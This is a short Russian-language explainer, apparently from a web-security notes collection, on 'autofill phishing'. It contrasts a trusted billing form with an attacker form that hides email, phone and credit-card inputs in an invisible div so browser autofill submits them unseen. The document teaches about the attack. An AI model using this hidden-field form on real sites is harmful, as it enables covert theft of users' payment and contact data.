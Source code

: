 # Autofill fishing

**Autofill fishing** - это фишинговая атака, эксплуатирующая механизм автозаполнения форм браузера. Некоторые реализации механизма автозаполнения подразумевают "запоминание" браузером значений полей, предлагая в последствии их подстановку на основе совпадения атрибута `name` в полях ввода.  

## Пример

Форма с доверенного сайта:  

    <form action="billing">
        <input type="text" name="username" />
        <input type="text" name="email" />
        <input type="text" name="phone" />
        <input type="text" name="creedit_card_num" />
        <input type="submit">
    </form>

При отправке которой, пользователь дает разрешение браузеру запомнить значение полей ввода.  

Форма со стороннего сайта:

    <form action="log">
        <input type="text" name="username" />
        <div style="visibility: hidden;">
            <input type="text" name="email" />
            <input type="text" name="phone" />
            <input type="text" name="creedit_card_num" />
        </div>
        <input type="submit">
    </form>

Тут отправятся все поля, хотя пользователь увидит подстановку и отправку только поля `username`.  

[← Назад](../README.md)